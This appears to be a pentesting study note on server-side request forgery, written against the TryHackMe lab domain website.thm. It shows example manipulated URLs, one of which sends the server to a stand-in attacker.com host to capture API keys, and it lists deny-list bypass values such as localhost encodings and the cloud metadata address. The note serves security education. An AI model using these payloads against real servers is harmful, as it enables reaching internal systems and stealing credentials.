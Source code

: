 ```yaml
---
title: Server-side Request Forgery
---
```

_Server-side Request Forgery_ is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## Types of SSRF

There are two types of SSRF vulnerability:
- a regular SSRF - data is returned to the attacker's screen
- _blind SSRF_ - an SSRF occurs, but no information is returned to the attacker's screen

## Impact
A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas
- Access to customer/organisational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

## Examples

### URL manipulation

The client expects similar request:
```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

By modifying the `url` query param, we might want to access different API endpoints, e.g.: 

```http
# hacker requests
http://website.thm/stock?url=http://api.website.thm/api/user

# client request the server
http://api.website.thm/api/user

# server returns the user data instead of stock information
```

### With [[cybersecurity/knowledge/pentesting/path-traversal]]

The client expects similar request:
```http
http://website.thm/stock?url=/item?id=123
```

Even if we have control over the path, not the whole URL, by modifying the `url` param, we might want to access different API endpoints, e.g.: 

```http
# hacker requests
http://website.thm/stock?url=/../user

# client request the server
http://api.website.thm/api/stock/../user

# server returns the user data instead of stock information
```

### Controlling the server's subdomain
The client expects similar request:
```http
http://website.thm/stock?server=api&id=123
```

```http
# hacker requests
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
                                [-------------------------]

# client request the server
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
     [----------------------------]                              [-]

# server returns the user data instead of stock information
```

We can control the server's subdomain to which the request is made (from `server` to `api.website.thm/api/user`). 

The [[cybersecurity/knowledge/glossary/payload]] ending with `&x=` is used to stop the remaining path from being appended to the end of the URL and turns into parameter itself.

### Forcing webapp to request another server

The attacker can force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by `website.thm` (that would normally authenticate to `api.website.thm`).

The client expects similar request:
```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

```http
# hacker requests
http://website.thm/stock?url=http://attacker.com/

# webapp requests data from `attacker.com` revealing the API key
```

## Finding a SSRF
SSRF vulnerabilities can be spotted in many different ways. Common examples: 
- A full URL used as a parameter in the address bar
	- `https://website.thm/form?server=http://server.website.thm/store`
- A partial URL such as just the hostname
	- `https://website.thm/form?server=api`
- Path of the URL
	- `https://website.thm/form?dst=/forms/contact`
- In a hidden field in a form

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working [[cybersecurity/knowledge/glossary/payload]].

If working with a blind SSRF the output is not reflected back to us, so we'll need an external HTTP logging tool to monitor requests:
- [RequestBin](requestbin.com)
- your own HTTP server
- [[Burp Suite]]'s Collaborator client.

## Bypassing SSRF defenses

Security-savvy developers aware of the SSRF may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, as follows:

### *Deny List*

All requests are accepted apart from resources specified in a list or matching a particular pattern. 

A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. 

A specific endpoint to restrict access is the `localhost`/`127.0.0.1`, which may contain server performance data or further sensitive information.

Attackers can bypass a Deny List by using alternative localhost references such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` or subdomains that have a DNS record which resolves to `127.0.0.1` such as `127.0.0.1.nip.io`.

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.

### *Allow List*

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, eg. a rule that an URL used in a parameter must begin with `https://website.thm`. 

An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

### Open Redirect

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address, e.g `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created for statistics purposes. 

But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
